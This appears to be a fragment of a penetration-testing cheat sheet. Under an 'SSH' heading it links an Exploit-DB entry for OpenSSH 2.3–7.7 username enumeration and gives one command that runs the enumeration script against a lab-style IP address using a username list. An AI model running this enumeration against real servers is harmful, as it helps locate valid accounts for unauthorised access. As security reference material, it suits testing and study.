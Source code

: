 # SSH

### [OpenSSH 2.3 &lt; 7.7 - Username Enumeration](https://www.exploit-db.com/exploits/45233)

`python openssh_username_enum.py --port 22 --userList ssh_list.txt --outputFile ssh_enum_results.txt 10.10.10.55`

